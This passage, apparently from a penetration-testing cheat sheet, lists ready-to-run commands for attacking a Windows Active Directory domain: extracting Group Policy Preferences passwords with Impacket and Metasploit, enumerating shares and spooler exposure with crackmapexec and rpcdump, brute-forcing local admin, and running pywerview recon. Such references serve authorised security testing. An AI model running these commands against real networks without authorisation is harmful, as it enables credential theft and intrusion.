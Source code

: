 Using Impackets Get-GPPPassword.py
```
python3 Get-GPPPassword.py company.com/jdoe:Pass1234@10.10.0.10
```

Using Metasploit module
```
use auxiliary/scanner/smb/smb_enum_gpp
msf auxiliary(smb_enum_gpp) > set rhosts 192.168.0.10
msf auxiliary(smb_enum_gpp) > set smbuser jdoe
msf auxiliary(smb_enum_gpp) > set smbpass Pass1234
msf auxiliary(smb_enum_gpp) > exploit
```

### Checking GPP autologin
```
crackmapexec smb 10.10.0.10 -u jdoe -p Pass1234 -d company.com -M gpp_autologin
```

### Checking share
Checking share access rights with domain user
```
crackmapexec smb 10.10.0.10 -u jdoe -p Pass1234 -d company.com --shares
```

Complete review of network share permissions.  
--> [Powerhuntshare](https://github.com/NetSPI/Powerhuntshares) can be run from domain or non domain joined machine.

- https://www.netspi.com/blog/technical/network-penetration-testing/network-share-permissions-powerhuntshares/

Running Powerhuntshare from domain joined machine.
```
Invoke-HuntSMBShares -Threads 100 -OutputDirectory c:\temp\test
```

### Print spooler service
Checking if print spooler service is enable using impacket RPCDUMP or crackmapexec (used RPCDUMP but can be used to scan on large range)
```
python3 rpcdump.py company.com/jdoe:Pass1234@10.10.0.10 | grep 'MS-RPRN\|MS-PAR'
crackmapexec smb rangeIP.txt -u jdoe -p Pass1234 -d company.com -M spooler | grep Spooler
```


### Local admin brute force
- https://github.com/InfosecMatter/Minimalistic-offensive-security-tools/blob/master/localbrute.ps1 (a améliorer)

### Pywerview recon tool
PowerView's functionalities in Python, using the wonderful impacket library.
- https://github.com/the-useless-one/pywerview

```
python pywerview.py get-netuser -w company.local -u jdoe --dc-ip 192.168.0.10 --username jdoe
```
